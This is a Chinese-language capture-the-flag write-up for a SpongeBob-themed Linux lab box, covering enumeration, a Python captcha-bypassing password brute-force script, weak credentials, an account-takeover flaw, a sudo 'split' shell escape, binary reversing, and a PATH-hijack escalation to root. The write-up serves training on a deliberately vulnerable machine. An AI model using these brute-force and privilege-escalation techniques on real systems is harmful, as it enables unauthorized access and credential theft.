## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali  
❯ nmap 192.168.56.131 -sV -A  -p-

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 f6:91:6b:ad:ea:ad:1d:b9:44:09:d8:74:a3:02:38:35 (ECDSA)
|_  256 b6:66:2f:f0:4c:26:7f:7d:14:ea:b3:62:09:64:a7:94 (ED25519)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.62 (Debian)
```

进入**80**端口查看，是一个**apache**默认页

## Gobuster

进行目录扫描，没有扫到任何东西

```
[root@kali] /home/kali  
❯ gobuster dir -u http://192.168.56.131/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.131/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 11539]
/.html                (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

在网页源码中发现注释，可以访问**/finexo**



## Weak Passwd

注意到这里的团队成员，都是**海绵宝宝**中的人物


来到登录页面，发现这里存在验证码校验，并且有三种回显：**用户不存在、密码错误、以及验证码错误**  





经过尝试，发现存在的用户是：**spongebob**

这里的验证码生成逻辑是直接从当前页面进行请求，然后通过**Canvas**绘制到图片上

```
    function refreshCaptcha() {

        var xhr = new XMLHttpRequest();
        xhr.open('GET', '?action=generateCaptcha', true);
        xhr.onload = function() {
            if (xhr.status === 200) {

                var newCaptcha = xhr.responseText;

                const canvas = document.getElementById("captcha-canvas");
                const ctx = canvas.getContext("2d");

                canvas.width = 150;
                canvas.height = 50;

                ctx.fillStyle = "white";
                ctx.fillRect(0, 0, canvas.width, canvas.height);

                ctx.fillStyle = "black";
                ctx.font = "30px Arial";
                ctx.fillText(newCaptcha, 10,35);
            }
        };
        xhr.send();
    }
    refreshCaptcha()

    window.onload =function() {
        Particles.init({
            selector:
                '.background',
            color:'white'
        });
    };
```

在另一个**js**文件中发现了一串密文





- [JSFuck Language Translator - Online Decoder/Compiler/Unobfuscator](https://www.dcode.fr/jsfuck-language)

进行解密后得到验证码的生成逻辑，可以看到是**PHP**的**mt\_srand**伪随机问题，使用了当前时间作为种子

```
function generateCaptcha() { $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"; 
$code = ""; 
$seed = time(); 
mt_srand($seed); 
for ($i = 0; $i < 4; $i++) { $code .= $characters[mt_rand(0, strlen($characters) - 1)]; } $_SESSION['captcha'] = strtolower($code); return $code; }
```

通过写脚本分别请求来进行爆破的话

```
import requests

captcha_url = 'http://192.168.56.132/finexo/login.php?action=generateCaptcha'
login_url = 'http://192.168.56.132/finexo/login.php'

# 创建会话对象
session = requests.Session()

cnt =0
with open('/usr/share/wordlists/rockyou_utf_8.txt', 'r') as f:
    for password in f.readlines():

        # 获取验证码
        captcha = session.get(captcha_url).text

        password = password.strip()  # 去除密码两端的空白字符

        data={
            'username':'spongebob',
            'password':f'{password}',
            'captcha': captcha
        }

        # 使用会话对象发送POST请求进行登录
        try_login = session.post(login_url, data=data)
        cnt +=1
        # 输出登录结果
        print(f"Attempting with password: {password} {cnt}")

        # 检查是否登录成功，假设返回的文本包含某个成功标志
        if "successful" in try_login.text:
            print(f"Login successful with password: {password}")
            break
```



也可以尝试弱口令，他的用户名是**spongebob**，因此尝试密码为**squarepants**，成功登录！！

```
spongebob：squarepants
```


## SQL Injection

查看用户信箱，发现了一个类似于管理员的用户：**Administratro**


同时下方存在一个**Send**的请求，用于发送信息。



到这里如果你想的是**XSS**来获取到管理员的身份凭证，那么你的思路是正常的。但是这里并不会有任何回应。

注意到这里存在一个修改用户信息的表单，同时还可以上传头像。



上传一个木马？？？思路很好，但是这里也不是😂

抓包发现可以修改用户名，导致其他用户的密码被修改。



登录之后，可以看到存在一个命令行工具，反弹**shell**拿到**www-data**


## Own KrustyKrab

```
www-data@KrustyKrab:/var/www/html/finexo/admin_dashborad$ sudo -l
sudo -l
sudo: unable to resolve host KrustyKrab: Temporary failure in name resolution
Matching Defaults entries for www-data on KrustyKrab:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User www-data may run the following commands on KrustyKrab:
    (KrustyKrab) NOPASSWD: /usr/bin/split
```

可以看到存在以**KrustyKrab**身份运行**split**命令

- [split | GTFOBins](https://gtfobins.github.io/gtfobins/split/#sudo)

```
sudo -u KrustyKrab /usr/bin/split --filter=/bin/sh /dev/stdin
```



拿到**User.txt**



写入**ssh**密钥进行登录



## Own SpongeBob

查看**sudo -l**

```
KrustyKrab@KrustyKrab:~$ sudo -l
sudo: unable to resolve host KrustyKrab: Temporary failure in name resolution
Matching Defaults entries for KrustyKrab on KrustyKrab:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User KrustyKrab may run the following commands on KrustyKrab:
    (spongeBob) NOPASSWD: /usr/bin/ttteeesssttt
```

将这个文件复制出来进行反编译查看

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  const char *v4; // rax
  char s[11]; // [rsp+5h] [rbp-5Bh] BYREF
  int v7[12]; // [rsp+10h] [rbp-50h] BYREF
  int n; // [rsp+40h] [rbp-20h]
  int v9; // [rsp+44h] [rbp-1Ch]
  int m; // [rsp+48h] [rbp-18h]
  int v11; // [rsp+4Ch] [rbp-14h]
  int k; // [rsp+50h] [rbp-10h]
  int v13; // [rsp+54h] [rbp-Ch]
  int j; // [rsp+58h] [rbp-8h]
  int i; // [rsp+5Ch] [rbp-4h]

  v3 = time(0LL);
  srand(v3);
  for ( i = 0; i <= 9; ++i )
    v7[i] = i;
  shuffle(v7, 10LL);
  puts("\nSpongebob forgot how to make Krabby Patty, You need to help him!");
  puts("\nCurrent shuffled recipe order:");
  for ( j = 0; j <= 9; ++j )
    printf("%c: %s\n", (unsigned int)labels[j], (&ingredients)[v7[j]]);
  puts("\nPlease enter the correct order using letters (e.g., ABCDEFGHIJ):");
  while ( 1 )
  {
    while ( 1 )
    {
      printf("Enter 10 letters (A-J): ");
      __isoc99_scanf("%10s", s);
      while ( getchar() != 10 )
        ;
      if ( strlen(s) == 10 )
        break;
      puts("Error: You must enter exactly 10 letters!");
    }
    v13 = 1;
    for ( k = 0; k <= 9; ++k )
    {
      if ( s[k] <= 64 || s[k] > 74 )
      {
        v13 = 0;
        break;
      }
    }
    if ( v13 )
      break;
    puts("Error: Contains invalid characters! Use only A-J.");
  }
  v11 = 1;
  for ( m = 0; m <= 9; ++m )
  {
    v9 = -1;
    for ( n = 0; n <= 9; ++n )
    {
      if ( labels[n] == s[m] )
      {
        v9 = n;
        break;
      }
    }
    if ( v9 == -1 || m != v7[v9] )
    {
      v11 = 0;
      break;
    }
  }
  if ( v11 )
    v4 = "Validation successful! Perfect Krabby Patty!";
  else
    v4 = "Validation failed! This is not the correct recipe!";
  printf("\n%s\n", v4);
  if ( v11 )
    system("/bin/bash -p");
  return 0;
}
```

似乎是要做一个蟹黄堡？但是没有配方怎么办呢，查看到目录下还有一个**GIF**图片格式的文件



修改一下后缀名可以看到图片内容

这是海绵宝宝被海霸王搞了的那一集，海霸王把腌野菜放在了舌头下面，然后骗海绵宝宝说他没有放腌野菜，最后甚至都忘记了怎么做蟹黄堡，好在他最后凭借潜意识想起来了怎么做。


因此配方的顺序就有了

```
底部面包 肉饼 生菜 奶酪 洋葱 西红柿 番茄酱 芥末 腌野菜 顶部面包
```



可以看到成功帮海绵宝宝找回了自我！！！

## Own Squidward

可以查看到是需要**key1**和**key2**连起来进行md5加密



查看**key2.jpeg**


如果你认为这是一个**misc**的话，那就想麻烦了。

实际上章鱼哥的密码就是两个文件的**md5**值拼起来再次进行**md5**





## Root

注意到当前文件夹中有一个**laststep**文件，并且设置了**SUID**



进行反编译，非常简单

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setgid(0);
  setuid(0);
  system("cat /etc/shadow");
  return 0;
}
```

你或许已经猜到了要用到路径劫持了吧

注意这里要给**chmod +x**执行权限哦

```
export PATH=.:$PATH
```



## Summary

`User`：从登录页面弱口令进入后台，通过修改任意用户密码登录到管理员后台，执行命令拿到www-data权限，通过**split**拿到**KrustyKrab**用户。

`Root`：逆向分析加上给出的**GIF**图片提示，输入正确序列可以拿到**spongebob**的权限。对文件进行md5加密操作拿到**squidward**密码，最后通过路径劫持提权到**Root**
